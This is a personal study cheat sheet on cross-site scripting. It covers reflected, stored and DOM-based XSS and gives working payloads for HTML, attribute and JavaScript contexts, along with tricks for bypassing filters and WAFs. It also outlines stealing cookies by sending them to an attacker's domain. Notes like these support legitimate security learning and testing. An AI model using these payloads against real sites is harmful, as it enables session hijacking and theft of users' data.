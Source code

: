 # Cross-site scripting (XSS)

## General info
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users

## Alert() limitation
TO DO

## Do not use alert(1)
```
<textarea id="script" onchange=("unsafe(this.value)"></textarea><br>
<iframe id="result" sandbox="allow-scripts allow-modals"></iframe>
```
```
document.session = "secret"
function unsafe(t) {
  var i = document.getElementById('result'); // get the <iframe>
  i.srcdoc = "<body><script>document.write("+t+");<"+"/script><body>";
}
```
- Try `alert(1)` and you see it works... but
- `alert(document.session)` won't work... why?
- `alert(window.origin)` or `alert(document.domain)` and you'll see it's empty
  - this is because the sandboxed iframe also has a different origin. It's isolated from the website it is embedded into and you cannot steal the secret session.
- Use `alert(document.domain)` or `alert(window.origin)` instead 

## Types of XSS
- Reflected XSS, where the malicious script comes from the current HTTP request.
  - `https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`
- Stored XSS, where the malicious script comes from the website's database.
  - POST example: `comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
  - ```
    <script>
    function trackSearch(query) {
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
      trackSearch(query);
    }
    </script>
    ```
  - Get request `https://insecure-website.com/index?search="><script>alert(document.domain)<%2Fscript>`
  - Methodology
      1. Look for any script that has a sinks
      2. See if you can control the sink
      3. Exploit it 
  - Note: here there are some sources and sinks
    - https://github.com/wisec/domxsswiki/wiki
    - https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
  - Note 2: DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks. 

### DOM XSS - Sources and sinks in third-party dependencies
To do...

### DOM XSS combined with reflected and stored data
- If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side. (there is no processing from the server) 
- Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
  - `eval('var data = "reflected string"');`
- In a stored DOM XSS vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.
  - `element.innerHTML = comment.author`

## Cross-site scripting contexts
### XSS between HTML tags
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
- Bypass WAF
  - If you receive an error like "tag <img> is not allowed" or "event is not allowed", use XSS cheat sheet to discover a tag and event that work.
  - Note: understand how a payload works
    - `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
### XSS in HTML tag attributes
- When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one.
  - `"><script>alert(document.domain)</script>`
- More commonly in this situation, angle brackets are blocked or encoded. In this case you can introduce a new attribute that creates a scriptable context.
  - `" autofocus onfocus=alert(document.domain) x="`
- Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context.
  - If the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script
    - `<a href="javascript:alert(document.domain)">`
- Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in:
  - Hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible
    - `<input type="hidden" accesskey="X" onclick="alert(1)">`
  - `<link rel="canonical" accesskey="X" onclick="alert(1)" />`
- Suggestions:
  - Substitute `'` `"` and viceversa
  - Space is not needed
    - `<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>`

### XSS into JavaScript
- Terminating the existing script (I don't really know why this works but it works)
  - The browser incorrectly interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.
      - ```
        <script>
        ...
        var input = 'controllable data here';
        ...
        </script>
        ```
        ```
        </script><img src=1 onerror=alert(document.domain)>
        ```
- Breaking out of a JavaScript string
  - It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing
    - ```
      '-alert(document.domain)-'
      ';alert(document.domain)//
      ```
  - Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
    - ` ';alert(document.domain)// ` is converted to `\';alert(document.domain)//` so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
  - Making use of HTML-encoding
    - When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
      - `<a href="#" onclick="... var input='controllable data here'; ...">`
      - `&apos;-alert(document.domain)-&apos;`
      - The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
      - HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html
      - Note: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure

## Exploiting cross-site scripting vulnerabilities
### Exploiting cross-site scripting to steal cookies
- Send the victim's cookies to your own domain
- Limitation:
  - The victim might not be logged in.
  - Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
  - Sessions might be locked to additional factors like the user's IP address.
  - The session might time out before you're able to hijack it.
### Exploiting cross-site scripting to capture passwords
To do
### Exploiting cross-site scripting to perform CSRF
To do
